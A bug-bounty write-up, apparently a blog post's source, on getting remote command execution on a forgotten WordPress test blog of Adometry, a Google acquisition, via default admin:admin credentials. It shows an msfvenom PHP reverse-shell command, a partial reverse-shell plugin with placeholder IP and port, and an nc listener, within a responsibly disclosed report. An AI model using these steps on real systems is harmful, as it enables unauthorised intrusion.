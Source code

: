 ```yaml
---
layout: post

title: "Getting a shell on a Google Acquisition"
subtitle: ""
cover_image: google/google.jpg

excerpt: "Forgotten Wordpress blog could be exploited to get remote command execution on Adometry by Google server "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/07/30/google

---
```


### TL;DR
Default Wordpress credentials on an old version of the Adometry blog would have allowed an attacker to upload a PHP shell and execute remote commands.

### Google dorking
Instead of studying for the exams last month I tryed to discover some bugs in a Google Acquisition to get my name listed on the **Google Hall of Fame**. The acquisition which I have targeted is **Adometry by Google** a SaaS-based marketing attribution and optimization platform. Looking around on their website I have discovered the company blog located at [http://www.adometry.com/blog/](http://www.adometry.com/blog/) which runs the **latest version of Wordpress**.
Since the bugs are often located in hidden and old pages of the website let's give them a look. A very useful way to discover these pages is Google itself. Using some operands like ``site:`` or ``inurl:`` and combining these with the ``interval of dates filter`` it is possible to discover old pages of a particular website. Let's try it: ``site:adometry.com`` and set the interval of date in the past but not that much. Besides the pages which simply redirect to the main website I have noticed something strange:

<div class="full zoomable">
  <img src="/images/google/blog2013.png">
</div>

### The Wordpress test blog
The first thing that I have noticed was the title of the blog  **Test | Just another WordPress site - Adometry** which contains the magic keyword that every Penetration Tester/Bug Hunter is looking for: **Test** that in many cases means vulnerable as hell. The second thing that I have noticed is that the url of this blog [http://www.adometry.com/blog2013/](http://www.adometry.com/blog2013/) is different from the official one that I have discovered before. By inspecting the source code of the page I discovered that the **Wordpress version was the 3.5.1** that has a lot of vulnerabilities like XSS XXE CSRF and maybe a [RCE](https://vagosec.org/2013/12/wordpress-rce-exploit/), but  I am a lazy guy, out there it was very hot, and I would like to go for a swim so I tryed to find an easier way in. I know for sure this was just a testing blog and so what are the **classical credetials** for a testing thing? The default ones and in the case of Wordpress the classical **admin:admin**. Let's give them a shot and here we are:

<div class="full zoomable">
  <img src="/images/google/wordpress.png">
</div>

### Getting a shell
The easiest way to get a shell once you have admin access to a Wordpress blog is to **upload a custom plugin** containing a reverse shell, enable it and visit the page which runs it:

- Create a **php reverse shell** using msfvenom and name the file shell.php:

<code >
msfvenom -p php/meterpreter_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw > shell.php
</code>

- Add comments on the top of the shell.php to **make it a valid plugin** and compress it in zip format
{% highlight php %}
<?php
/*
*     Plugin Name: My Shell
*     Plugin URI: https://github.com/r0rshark/wordpress-shell
*     Description: Execute Commands as the webserver you are serving wordpress with
*     Author: r0rshark
*     Version: 0.2
*     Author URI: https://r0rshark.github.io
*                             */
    $ipaddr='Your IP';
    $port=Your Port;

      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      ...
      ?>
{% endhighlight %}
- **Upload and enable the plugin** in the Wordpress dashboard

<div class="full zoomable">
  <img src="/images/google/wordpress_plugin.png">
</div>

- **Setup a listener** at your ip and port used in the msfvenom command:

<code >
nc -lvp port
</code>

- **Execute the reverse shell** by visiting www.adometry.com/blog2013/wp-content/plugins/shell/shell.php

<div class="full zoomable">
  <img src="/images/google/shell.png">
</div>

### Maybe getting root
In the previous picture it is possible to see the current kernel version running on that machine which is the **2.6.32**. I think that there are known **public exploits** to get a root shell exploiting vulnerabilities in this kernel version. For example I have tested  [this](https://www.exploit-db.com/exploits/15704/) on a 2.6.31 kernel and since the exploit has been created to work with kernel < 2.6.37 I suppose that it can work as well. Obviously I haven't tried it because I think this would go beyond of the Bug Bounty scope.

- 1 July 2015 Vulnerability reported to the Google Security Team
- 2 July 2015 Vulnerability patched
- 9 July 2015 Got reward of $3133.7





